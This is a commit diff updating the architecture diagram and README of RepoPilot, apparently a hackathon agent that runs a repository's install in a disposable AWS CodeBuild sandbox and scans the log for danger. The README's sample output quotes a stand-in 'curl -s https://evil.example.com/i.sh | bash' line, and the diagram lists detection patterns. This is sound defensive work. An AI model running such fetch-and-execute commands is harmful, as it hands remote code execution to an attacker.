

docs: feature the new tool everywhere (architecture, README, hero shot)
- architecture.html/png: redrawn to SHOW the new tool. Two lanes now: v1 static
  5-tool read (the guess) vs v2 run_in_sandbox pipeline (CodeBuild -> CloudWatch
  -> scan_log_for_danger -> proven verdict), with least-privilege/teardown note.
  Fixes the old diagram that said 5/7 tools and never mentioned the sandbox.
- README: replaced the ASCII toggle box with a real UI hero screenshot; reframed
  before/after from a standalone toggle to the tool living inside RepoPilot's own
  UI; embedded the architecture diagram in How It Works; aligned the sneaky repo
  name to evil/fake-agent-kit across README + replay-data; updated tech-stack and
  project-structure. 0 em dashes.
- ui-hero.png: the integrated UI catching curl|bash in the live sandbox log.

diff --git a/docs/architecture.html b/docs/architecture.html
@@ -3,122 +3,143 @@
 <head>
 <meta charset="UTF-8" />
 <meta name="viewport" content="width=device-width, initial-scale=1.0" />
-<title>RepoPilot: Architecture</title>
+<title>RepoPilot: Architecture (now with the sandbox tool)</title>
 <link href="https://fonts.googleapis.com/css2?family=Instrument+Serif&family=Geist:wght@400;500;600&family=Geist+Mono:wght@400;500&display=swap" rel="stylesheet" />
 <style>
   html,body { margin:0; background:#f5f5f5; }
   body { font-family:'Geist',sans-serif; color:#2d3142; padding:28px 32px; }
-  .page { max-width:1000px; margin:0 auto; }
+  .page { max-width:1040px; margin:0 auto; }
   .eyebrow { font-family:'Geist Mono',monospace; font-size:9px; letter-spacing:.22em; text-transform:uppercase; color:#7a6cff; margin:0; }
-  h1 { font-family:'Instrument Serif',serif; font-weight:400; font-size:1.75rem; margin:6px 0 2px; }
-  .sub { color:#4f5d75; font-size:.9rem; margin:0 0 16px; max-width:64ch; }
+  h1 { font-family:'Instrument Serif',serif; font-weight:400; font-size:1.8rem; margin:6px 0 2px; }
+  .sub { color:#4f5d75; font-size:.9rem; margin:0 0 16px; max-width:70ch; }
   svg { display:block; width:100%; height:auto; }
 </style>
 </head>
 <body>
 <div class="page">
-  <p class="eyebrow">RepoPilot · How It Works</p>
-  <h1>From a repo URL to a friendly first-run guide</h1>
-  <p class="sub">One Lambda function. The agent reads the real repo, runs seven tools and computes a 0-100 score, then asks Amazon Nova Pro to narrate one kind, ordered path.</p>
+  <p class="eyebrow">RepoPilot · How It Works · + the new tool</p>
+  <h1>From a repo URL to a verdict it actually proved</h1>
+  <p class="sub">RepoPilot reads the repo with 5 static tools and scores it 0-100 (the guess). The <strong>new 6th tool, <span style="color:#7a6cff">run_in_sandbox</span></strong>, then runs the install inside a disposable AWS CodeBuild container and reads the real log, so the agent stops guessing and starts proving.</p>
 
-  <svg viewBox="0 0 920 560" role="img" aria-labelledby="rp-arch-title rp-arch-desc" xmlns="http://www.w3.org/2000/svg">
-    <title id="rp-arch-title">RepoPilot architecture</title>
-    <desc id="rp-arch-desc">A new contributor sends a repo URL to a web UI or Lambda Function URL; the RepoPilot agent on AWS Lambda fetches the public GitHub repo, runs five analysis tools, calls Amazon Nova Pro on Amazon Bedrock to narrate the result, and returns a friendly first-run guide.</desc>
+  <svg viewBox="0 0 960 600" role="img" aria-labelledby="rp-arch-title rp-arch-desc" xmlns="http://www.w3.org/2000/svg">
+    <title id="rp-arch-title">RepoPilot architecture with the sandbox tool</title>
+    <desc id="rp-arch-desc">A contributor sends a repo URL to the RepoPilot agent (Strands + Amazon Bedrock Nova Pro). Five static read-tools produce a 0-100 score (the guess). The new sixth tool, run_in_sandbox, starts an ephemeral AWS CodeBuild build with a least-privilege role that clones the repo and runs its install, writes the real log to CloudWatch, and a danger scan over that real log produces the proven verdict.</desc>
 
     <defs>
       <marker id="a" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto"><polygon points="0 0, 8 3, 0 6" fill="#4f5d75"/></marker>
       <marker id="ap" markerWidth="8" markerHeight="6" refX="7" refY="3" orient="auto"><polygon points="0 0, 8 3, 0 6" fill="#7a6cff"/></marker>
+      <marker id="an" markerWidth="9" markerHeight="7" refX="7.5" refY="3.5" orient="auto"><polygon points="0 0, 9 3.5, 0 7" fill="#d9480f"/></marker>
+      <linearGradient id="newg" x1="0" y1="0" x2="1" y2="1">
+        <stop offset="0" stop-color="#8b7cff"/><stop offset="1" stop-color="#6d5ef0"/>
+      </linearGradient>
     </defs>
 
-    <rect width="920" height="560" fill="#f5f5f5"/>
+    <rect width="960" height="600" fill="#f5f5f5"/>
 
-    <!-- ============ ROW 1: the request flow (y ~ 60-120) ============ -->
-    <!-- connectors first -->
-    <!-- user -> UI -->
+    <!-- ============ ROW 1: request + agent (y ~ 56-128) ============ -->
     <path d="M 196 92 H 268" stroke="#4f5d75" stroke-width="1.4" fill="none" marker-end="url(#a)"/>
     <rect x="206" y="72" width="56" height="12" rx="2" fill="#f5f5f5"/>
     <text x="234" y="81" fill="#7a8399" font-size="8" font-family="'Geist Mono',monospace" text-anchor="middle" letter-spacing=".06em">REPO URL</text>
-    <!-- UI -> Lambda -->
     <path d="M 404 92 H 476" stroke="#7a6cff" stroke-width="1.6" fill="none" marker-end="url(#ap)"/>
     <rect x="420" y="72" width="40" height="12" rx="2" fill="#f5f5f5"/>
-    <text x="440" y="81" fill="#7a6cff" font-size="8" font-family="'Geist Mono',monospace" text-anchor="middle" letter-spacing=".06em">POST</text>
+    <text x="440" y="81" fill="#7a6cff" font-size="8" font-family="'Geist Mono',monospace" text-anchor="middle" letter-spacing=".06em">ASK</text>
 
-    <!-- user node -->
+    <!-- user -->
     <rect x="56" y="64" width="140" height="56" rx="6" fill="rgba(79,93,117,0.10)" stroke="#7a8399"/>
-    <text x="126" y="88" fill="#2d3142" font-size="12" font-weight="600" text-anchor="middle">🧑 New contributor</text>
-    <text x="126" y="106" fill="#4f5d75" font-size="9" font-family="'Geist Mono',monospace" text-anchor="middle">"get this running"</text>
+    <text x="126" y="88" fill="#2d3142" font-size="12" font-weight="600" text-anchor="middle">🧑 You</text>
+    <text x="126" y="106" fill="#4f5d75" font-size="9" font-family="'Geist Mono',monospace" text-anchor="middle">"is this safe to run?"</text>
 
-    <!-- UI node -->
+    <!-- UI -->
     <rect x="268" y="64" width="136" height="56" rx="6" fill="#ffffff" stroke="#2d3142"/>
-    <rect x="276" y="70" width="48" height="12" rx="2" fill="transparent" stroke="rgba(45,49,66,0.4)" stroke-width=".8"/>
-    <text x="300" y="79" fill="#2d3142" font-size="7" font-family="'Geist Mono',monospace" text-anchor="middle" letter-spacing=".08em">HTTPS</text>
-    <text x="336" y="98" fill="#2d3142" font-size="12" font-weight="600" text-anchor="middle">UI / Function URL</text>
-    <text x="336" y="113" fill="#4f5d75" font-size="8.5" font-family="'Geist Mono',monospace" text-anchor="middle">GitHub Pages demo</text>
+    <text x="336" y="90" fill="#2d3142" font-size="12" font-weight="600" text-anchor="middle">UI / Function URL</text>
+    <text x="336" y="107" fill="#4f5d75" font-size="8.5" font-family="'Geist Mono',monospace" text-anchor="middle">scorecard + run button</text>
 
-    <!-- Lambda node (focal) -->
-    <rect x="476" y="56" width="268" height="72" rx="8" fill="rgba(122,108,255,0.08)" stroke="#7a6cff" stroke-width="1.2"/>
-    <rect x="486" y="64" width="78" height="13" rx="2" fill="transparent" stroke="rgba(122,108,255,0.5)" stroke-width=".8"/>
-    <text x="525" y="74" fill="#5a4ad1" font-size="7" font-family="'Geist Mono',monospace" text-anchor="middle" letter-spacing=".08em">AWS LAMBDA</text>
-    <text x="610" y="98" fill="#2d3142" font-size="13" font-weight="600" text-anchor="middle">RepoPilot agent (py3.12)</text>
-    <text x="610" y="115" fill="#4f5d75" font-size="8.5" font-family="'Geist Mono',monospace" text-anchor="middle">fetch · score · narrate · reply</text>
+    <!-- Agent (focal) -->
+    <rect x="476" y="56" width="284" height="72" rx="8" fill="rgba(122,108,255,0.08)" stroke="#7a6cff" stroke-width="1.2"/>
+    <rect x="486" y="64" width="150" height="13" rx="2" fill="transparent" stroke="rgba(122,108,255,0.5)" stroke-width=".8"/>
+    <text x="561" y="74" fill="#5a4ad1" font-size="7" font-family="'Geist Mono',monospace" text-anchor="middle" letter-spacing=".08em">STRANDS AGENT · AWS LAMBDA</text>
+    <text x="618" y="98" fill="#2d3142" font-size="13" font-weight="600" text-anchor="middle">RepoPilot agent</text>
+    <text x="618" y="115" fill="#4f5d75" font-size="8.5" font-family="'Geist Mono',monospace" text-anchor="middle">6 tools · reason with Nova Pro</text>
 
-    <!-- ============ ROW 2: downstream (y ~ 200-440) ============ -->
-    <!-- Lambda -> GitHub (down-left elbow) -->
-    <path d="M 540 128 V 170 Q 540 178 532 178 H 206 Q 198 178 198 186 V 212" stroke="#4f5d75" stroke-width="1.4" fill="none" marker-end="url(#a)"/>
-    <rect x="300" y="172" width="90" height="12" rx="2" fill="#f5f5f5"/>
-    <text x="345" y="181" fill="#7a8399" font-size="8" font-family="'Geist Mono',monospace" text-anchor="middle" letter-spacing=".06em">FETCH REPO</text>
+    <!-- Bedrock (right) -->
+    <path d="M 760 92 H 824" stroke="#7a6cff" stroke-width="1.6" fill="none" marker-end="url(#ap)"/>
+    <rect x="824" y="64" width="128" height="56" rx="6" fill="rgba(122,108,255,0.08)" stroke="#7a6cff"/>
+    <text x="888" y="88" fill="#2d3142" font-size="11.5" font-weight="600" text-anchor="middle">🧠 Bedrock</text>
+    <text x="888" y="105" fill="#4f5d75" font-size="8.5" font-family="'Geist Mono',monospace" text-anchor="middle">Nova Pro</text>
 
-    <!-- Lambda -> Tools (straight down) -->
-    <path d="M 610 128 V 212" stroke="#4f5d75" stroke-width="1.4" fill="none" marker-end="url(#a)"/>
-    <rect x="572" y="162" width="76" height="12" rx="2" fill="#f5f5f5"/>
-    <text x="610" y="171" fill="#7a8399" font-size="8" font-family="'Geist Mono',monospace" text-anchor="middle" letter-spacing=".06em">RUN TOOLS</text>
+    <!-- ============ ROW 2: the two tool lanes ============ -->
+    <!-- agent -> static tools -->
+    <path d="M 560 128 V 180 Q 560 188 552 188 H 330 Q 322 188 322 196 V 214" stroke="#4f5d75" stroke-width="1.4" fill="none" marker-end="url(#a)"/>
+    <rect x="356" y="182" width="120" height="12" rx="2" fill="#f5f5f5"/>
+    <text x="416" y="191" fill="#7a8399" font-size="8" font-family="'Geist Mono',monospace" text-anchor="middle" letter-spacing=".06em">v1 · READ (the guess)</text>
 
-    <!-- Lambda -> Bedrock (down-right elbow) -->
-    <path d="M 700 128 V 170 Q 700 178 708 178 H 820 Q 828 178 828 186 V 212" stroke="#7a6cff" stroke-width="1.6" fill="none" marker-end="url(#ap)"/>
-    <rect x="748" y="172" width="70" height="12" rx="2" fill="#f5f5f5"/>
-    <text x="783" y="181" fill="#7a6cff" font-size="8" font-family="'Geist Mono',monospace" text-anchor="middle" letter-spacing=".06em">NARRATE</text>
+    <!-- agent -> NEW tool (bold purple) -->
+    <path d="M 676 128 V 180 Q 676 188 684 188 H 724 Q 732 188 732 196 V 214" stroke="url(#newg)" stroke-width="2.4" fill="none" marker-end="url(#ap)"/>
+    <rect x="636" y="182" width="166" height="12" rx="2" fill="#f5f5f5"/>
+    <text x="719" y="191" fill="#5a4ad1" font-size="8" font-weight="600" font-family="'Geist Mono',monospace" text-anchor="middle" letter-spacing=".04em">v2 · RUN IT ★ NEW TOOL</text>
 
-    <!-- GitHub node -->
-    <rect x="118" y="212" width="160" height="56" rx="6" fill="rgba(45,49,66,0.03)" stroke="rgba(45,49,66,0.30)"/>
-    <text x="198" y="236" fill="#2d3142" font-size="12" font-weight="600" text-anchor="middle">🐙 Public GitHub</text>
-    <text x="198" y="254" fill="#4f5d75" font-size="8.5" font-family="'Geist Mono',monospace" text-anchor="middle">tree · README · manifests</text>
+    <!-- LANE A: static read tools -->
+    <rect x="96" y="214" width="372" height="214" rx="8" fill="#ffffff" stroke="#2d3142"/>
+    <rect x="106" y="222" width="190" height="13" rx="2" fill="transparent" stroke="rgba(45,49,66,0.4)" stroke-width=".8"/>
+    <text x="201" y="232" fill="#2d3142" font-size="7" font-family="'Geist Mono',monospace" text-anchor="middle" letter-spacing=".08em">5 STATIC TOOLS → 0-100 SCORE</text>
+    <text x="116" y="256" fill="#2d3142" font-size="11">1 · assess_repo_trust</text>
+    <text x="116" y="278" fill="#2d3142" font-size="11">2 · scan_setup_for_danger  <tspan fill="#7a8399" font-size="9">(reads README)</tspan></text>
+    <text x="116" y="300" fill="#2d3142" font-size="11">3 · build_first_run_plan</text>
+    <text x="116" y="322" fill="#2d3142" font-size="11">4 · check_readme_against_reality</text>
+    <text x="116" y="344" fill="#2d3142" font-size="11">5 · preflight_requirements</text>
+    <rect x="106" y="360" width="352" height="56" rx="6" fill="rgba(79,93,117,0.05)" stroke="rgba(45,49,66,0.18)"/>
+    <text x="116" y="380" fill="#4f5d75" font-size="9.5" font-family="'Geist Mono',monospace">verdict basis: what the repo SAYS about itself</text>
+    <text x="116" y="398" fill="#b4541a" font-size="10" font-weight="600">⚠ a postinstall hook stays invisible here</text>
 
-    <!-- Tools node -->
-    <rect x="440" y="212" width="340" height="206" rx="8" fill="#ffffff" stroke="#2d3142"/>
-    <rect x="450" y="220" width="128" height="13" rx="2" fill="transparent" stroke="rgba(45,49,66,0.4)" stroke-width=".8"/>
-    <text x="514" y="230" fill="#2d3142" font-size="7" font-family="'Geist Mono',monospace" text-anchor="middle" letter-spacing=".08em">7 TOOLS → 0-100 SCORE</text>
-    <text x="460" y="252" fill="#5a4ad1" font-size="11" font-weight="600">1 · assess_repo_trust</text>
-    <text x="460" y="272" fill="#5a4ad1" font-size="11" font-weight="600">2 · scan_setup_for_danger</text>
-    <text x="460" y="292" fill="#2d3142" font-size="11">3 · build_first_run_plan</text>
-    <text x="460" y="312" fill="#2d3142" font-size="11">4 · check_readme_against_reality</text>
-    <text x="460" y="332" fill="#2d3142" font-size="11">5 · generate_env_example</text>
-    <text x="460" y="352" fill="#2d3142" font-size="11">6 · preflight_requirements</text>
-    <text x="460" y="372" fill="#5a4ad1" font-size="11" font-weight="600">7 · explain_error  ★ the delight</text>
-    <text x="460" y="398" fill="#4f5d75" font-size="9" font-family="'Geist Mono',monospace">weighted → Safety·Trust·Maint·Maturity·Docs</text>
+    <!-- LANE B: THE NEW TOOL pipeline -->
+    <rect x="496" y="214" width="408" height="214" rx="10" fill="rgba(122,108,255,0.06)" stroke="#7a6cff" stroke-width="1.6"/>
+    <rect x="506" y="222" width="180" height="14" rx="2" fill="url(#newg)"/>
+    <text x="596" y="232.5" fill="#ffffff" font-size="7.5" font-weight="600" font-family="'Geist Mono',monospace" text-anchor="middle" letter-spacing=".08em">★ NEW TOOL · run_in_sandbox</text>
 
-    <!-- Bedrock node -->
-    <rect x="748" y="212" width="160" height="56" rx="6" fill="rgba(122,108,255,0.08)" stroke="#7a6cff"/>
-    <text x="828" y="236" fill="#2d3142" font-size="12" font-weight="600" text-anchor="middle">🧠 Amazon Bedrock</text>
-    <text x="828" y="254" fill="#4f5d75" font-size="8.5" font-family="'Geist Mono',monospace" text-anchor="middle">Nova Pro</text>
+    <!-- step 1: CodeBuild -->
+    <rect x="516" y="250" width="176" height="60" rx="7" fill="rgba(122,108,255,0.10)" stroke="#7a6cff"/>
+    <text x="604" y="272" fill="#2d3142" font-size="11.5" font-weight="600" text-anchor="middle">☁ AWS CodeBuild</text>
+    <text x="604" y="289" fill="#4f5d75" font-size="8.5" font-family="'Geist Mono',monospace" text-anchor="middle">ephemeral container</text>
+    <text x="604" y="302" fill="#4f5d75" font-size="8.5" font-family="'Geist Mono',monospace" text-anchor="middle">clone + run install · short TTL</text>
 
-    <!-- reply: Lambda back to user (dashed, clean down-and-left under row 1) -->
-    <path d="M 476 110 H 440 Q 432 110 432 118 V 140 Q 432 148 424 148 L 40 148 Q 32 148 32 140 V 100 Q 32 92 40 92 L 54 92" stroke="#4f5d75" stroke-width="1.2" fill="none" stroke-dasharray="4,3" marker-end="url(#a)"/>
-    <rect x="150" y="142" width="128" height="12" rx="2" fill="#f5f5f5"/>
-    <text x="214" y="151" fill="#7a8399" font-size="8" font-family="'Geist Mono',monospace" text-anchor="middle" letter-spacing=".06em">↩ FRIENDLY GUIDE</text>
+    <!-- arrow cb -> logs -->
+    <path d="M 692 280 H 716" stroke="#7a6cff" stroke-width="1.6" fill="none" marker-end="url(#ap)"/>
+    <!-- step 2: CloudWatch -->
+    <rect x="716" y="250" width="172" height="60" rx="7" fill="rgba(122,108,255,0.10)" stroke="#7a6cff"/>
+    <text x="802" y="272" fill="#2d3142" font-size="11.5" font-weight="600" text-anchor="middle">📜 CloudWatch Logs</text>
+    <text x="802" y="289" fill="#4f5d75" font-size="8.5" font-family="'Geist Mono',monospace" text-anchor="middle">the REAL build log</text>
+    <text x="802" y="302" fill="#4f5d75" font-size="8.5" font-family="'Geist Mono',monospace" text-anchor="middle">(what actually ran)</text>
+
+    <!-- arrow down to scan -->
+    <path d="M 802 310 V 334" stroke="#d9480f" stroke-width="1.8" fill="none" marker-end="url(#an)"/>
+    <!-- step 3: danger scan -->
+    <rect x="516" y="334" width="372" height="80" rx="8" fill="rgba(217,72,15,0.06)" stroke="#d9480f" stroke-width="1.2"/>
+    <text x="528" y="354" fill="#b4541a" font-size="10.5" font-weight="600" font-family="'Geist Mono',monospace">scan_log_for_danger → summarize_build</text>
+    <text x="528" y="372" fill="#2d3142" font-size="10">curl|bash · remote eval · chmod+run · destructive sudo</text>
+    <text x="528" y="392" fill="#166534" font-size="10.5" font-weight="600">✓ proven verdict: install ok / caught the real danger</text>
+    <text x="528" y="408" fill="#4f5d75" font-size="8.5" font-family="'Geist Mono',monospace">verdict basis: what the repo actually DID</text>
+
+    <!-- reply back to user (dashed) -->
+    <path d="M 476 104 H 452 Q 444 104 444 112 V 140 Q 444 148 436 148 L 40 148 Q 32 148 32 140 V 100 Q 32 92 40 92 L 54 92" stroke="#4f5d75" stroke-width="1.2" fill="none" stroke-dasharray="4,3" marker-end="url(#a)"/>
+    <rect x="150" y="142" width="150" height="12" rx="2" fill="#f5f5f5"/>
+    <text x="225" y="151" fill="#7a8399" font-size="8" font-family="'Geist Mono',monospace" text-anchor="middle" letter-spacing=".06em">↩ GUESS, THEN PROOF</text>
+
+    <!-- IAM note under CodeBuild lane -->
+    <text x="700" y="446" fill="#4f5d75" font-size="8.5" font-family="'Geist Mono',monospace" text-anchor="middle">least-privilege role · CloudWatch-Logs-only · torn down after</text>
 
     <!-- ============ legend ============ -->
-    <line x1="56" y1="448" x2="864" y2="448" stroke="rgba(45,49,66,0.10)" stroke-width=".8"/>
-    <text x="56" y="468" fill="#4f5d75" font-size="8" font-family="'Geist Mono',monospace" letter-spacing=".14em">LEGEND</text>
-    <rect x="130" y="460" width="10" height="10" rx="2" fill="rgba(122,108,255,0.08)" stroke="#7a6cff"/>
-    <text x="146" y="468" fill="#4f5d75" font-size="9" font-family="'Geist Mono',monospace">AWS service</text>
-    <rect x="268" y="460" width="10" height="10" rx="2" fill="#ffffff" stroke="#2d3142"/>
-    <text x="284" y="468" fill="#4f5d75" font-size="9" font-family="'Geist Mono',monospace">agent / code</text>
-    <rect x="420" y="460" width="10" height="10" rx="2" fill="rgba(45,49,66,0.03)" stroke="rgba(45,49,66,0.30)"/>
-    <text x="436" y="468" fill="#4f5d75" font-size="9" font-family="'Geist Mono',monospace">external</text>
-    <line x1="548" y1="465" x2="578" y2="465" stroke="#7a6cff" stroke-width="1.6"/>
-    <text x="586" y="468" fill="#4f5d75" font-size="9" font-family="'Geist Mono',monospace">model / HTTPS path</text>
-    <line x1="720" y1="465" x2="750" y2="465" stroke="#4f5d75" stroke-width="1.2" stroke-dasharray="4,3"/>
-    <text x="758" y="468" fill="#4f5d75" font-size="9" font-family="'Geist Mono',monospace">reply</text>
+    <line x1="56" y1="470" x2="904" y2="470" stroke="rgba(45,49,66,0.10)" stroke-width=".8"/>
+    <text x="56" y="490" fill="#4f5d75" font-size="8" font-family="'Geist Mono',monospace" letter-spacing=".14em">LEGEND</text>
+    <rect x="130" y="482" width="10" height="10" rx="2" fill="rgba(122,108,255,0.08)" stroke="#7a6cff"/>
+    <text x="146" y="490" fill="#4f5d75" font-size="9" font-family="'Geist Mono',monospace">AWS service</text>
+    <rect x="268" y="482" width="10" height="10" rx="2" fill="#ffffff" stroke="#2d3142"/>
+    <text x="284" y="490" fill="#4f5d75" font-size="9" font-family="'Geist Mono',monospace">agent / code</text>
+    <rect x="410" y="482" width="10" height="10" rx="2" fill="url(#newg)"/>
+    <text x="426" y="490" fill="#4f5d75" font-size="9" font-family="'Geist Mono',monospace">★ the new tool</text>
+    <line x1="548" y1="487" x2="578" y2="487" stroke="#d9480f" stroke-width="1.8"/>
+    <text x="586" y="490" fill="#4f5d75" font-size="9" font-family="'Geist Mono',monospace">danger scan (real log)</text>
+    <line x1="730" y1="487" x2="760" y2="487" stroke="#4f5d75" stroke-width="1.2" stroke-dasharray="4,3"/>
+    <text x="768" y="490" fill="#4f5d75" font-size="9" font-family="'Geist Mono',monospace">reply</text>
   </svg>
 </div>
 </body>

diff --git a/README.md b/README.md
@@ -12,7 +12,7 @@
 [![License: Apache-2.0](https://img.shields.io/badge/License-Apache%202.0-A855F7)](LICENSE)
 
 [![Watch the demo](https://img.shields.io/badge/▶%20Watch%20the%20demo-FF0000?logo=youtube&logoColor=white)](#-links)
-[![Live demo](https://img.shields.io/badge/🖥%20Live%20before%2Fafter%20toggle-8b7cff)](https://simplynadaf.github.io/repopilot-sandbox-tool/)
+[![Live demo](https://img.shields.io/badge/🖥%20Try%20the%20live%20demo-8b7cff)](https://simplynadaf.github.io/repopilot-sandbox-tool/)
 
 **🏗 Built for the [AWS Builder Center Weekend Challenge: Give your Agent a Tool](https://builder.aws.com/build/hackathons/2e275689-b202-316e-93b8-10cd6d6d1e4a/weekend-challenge-give-your-agent-a-tool)**
 
@@ -25,20 +25,13 @@
 ---
 
 <div align="center">
-<em>Flip one toggle in the live demo and watch the agent go from guessing to proving.</em>
-<br/>
 
-```
- ┌─────────────────────────────────────────────────────────────────────┐
- │  BEFORE  ·  v1 (reads it)          │   AFTER  ·  v2 (runs it)         │
- ├────────────────────────────────────┼─────────────────────────────────┤
- │  reads README + files + metadata   │   runs install in a disposable   │
- │                                    │   AWS CodeBuild sandbox          │
- │  sneaky repo:                      │   sneaky repo:                   │
- │    "Looks fine."   ← the hook is   │    "⚠ caught: curl | bash in the │
- │     invisible to a reader          │     live log"  ← the real truth  │
- └────────────────────────────────────┴─────────────────────────────────┘
-```
+### The new tool, inside RepoPilot's own UI
+
+<em>RepoPilot scores the repo (the guess), then the <strong>new tool</strong> actually runs the install in a disposable AWS sandbox and catches the <code>curl | bash</code> the static scan never sees (the proof).</em>
+
+<img src="docs/ui-hero.png" alt="RepoPilot UI: an F-grade static scorecard, then the NEW TOOL panel runs the install in a disposable AWS CodeBuild sandbox and catches a curl-pipe-bash postinstall in the real log" width="720" />
+
 </div>
 
 ---
@@ -110,17 +103,17 @@ everything: it stops guessing and starts proving.
 
 ## 🎚 Before / After (the whole point)
 
-The challenge asks you to show what your agent can do now that it could not before. The live
-demo makes that a single toggle: **v1 (reads it)** vs **v2 (runs it)**, on a safe repo and a
-sneaky one.
+The challenge asks you to show what your agent can do now that it could not before. It all
+happens in **one UI**: RepoPilot shows its static read first, then the new tool runs the
+install right below it, on a safe repo and a sneaky one.
 
-| Scenario | v1 · Before (reads it) | v2 · After (runs it in the sandbox) |
+| Scenario | Before · the static read (v1) | After · the new tool runs it (v2) |
 |---|---|---|
 | **Safe repo** (`pallets/click`) | "Looks safe. README and manifest agree." | **Ran it. Install SUCCEEDED. No danger in the live log.** |
-| **Sneaky `postinstall`** | "Looks fine." (the hook is invisible to a reader) | **⚠ Caught it: the install piped `curl ... \| bash` straight into a shell, seen in the real build log.** |
+| **Sneaky `postinstall`** (`evil/fake-agent-kit`) | "Looks fine." (the hook is invisible to a reader) | **⚠ Caught it: the install piped `curl ... \| bash` straight into a shell, seen in the real build log.** |
 
-Same agent, same repo, one new tool. v1 is a confident guess. v2 is the truth, because it
-actually pressed the button, in a box, so you did not have to.
+Same agent, same repo, one new tool. The static read is a confident guess. Running it is the
+truth, because it actually pressed the button, in a box, so you did not have to.
 
 ---
 
@@ -140,6 +133,10 @@ comes from running it somewhere disposable, and reading what it actually did.
 ---
 
 ## 🧠 How the Tool Works
+
+<div align="center">
+<img src="docs/architecture.png" alt="Architecture: RepoPilot's 5 static read-tools produce a 0-100 score (the guess); the new 6th tool run_in_sandbox starts an ephemeral AWS CodeBuild build with a least-privilege role, clones and runs the install, writes the real log to CloudWatch, and a danger scan over that real log produces the proven verdict" width="860" />
+</div>
 
 ```
  🧑 You: "is pallets/click safe to actually run?"
@@ -228,7 +225,7 @@ Each flag returns a `why` (plain English) and the exact `evidence` line from the
 | 🤖 Agent loop | [Strands Agents SDK](https://strandsagents.com) (`@tool`) |
 | 🧠 Reasoning | [Amazon Nova Pro](https://aws.amazon.com/ai/generative-ai/nova/) on Amazon Bedrock |
 | 🐍 Runtime | Python 3.11, `boto3` |
-| 🎨 Demo | single-file HTML, premium dark glass UI, a v1/v2 toggle, zero live calls |
+| 🎨 Demo | the real RepoPilot UI with the tool built in: score the repo, then click **Run it in a disposable AWS sandbox**; static replay, zero live calls |
 | ✅ Tests | 9 unit tests, no AWS needed (injectable client) |
 
 ---
@@ -272,7 +269,7 @@ run("pallets/click", "https://github.com/pallets/click", "pip install .")
   -> status: SUCCEEDED   install_ok: True   danger_signals: []   verified: True
 
 # Sneaky postinstall (install reaches the network)
-run("demo/sneaky-postinstall", ..., install that echoes a curl|bash)
+run("evil/fake-agent-kit", ..., install that echoes a curl|bash)
   -> status: SUCCEEDED   install_ok: True
      danger_signals: [ remote_pipe_to_shell :: "curl -s https://evil.example.com/i.sh | bash" ]
      verified: True
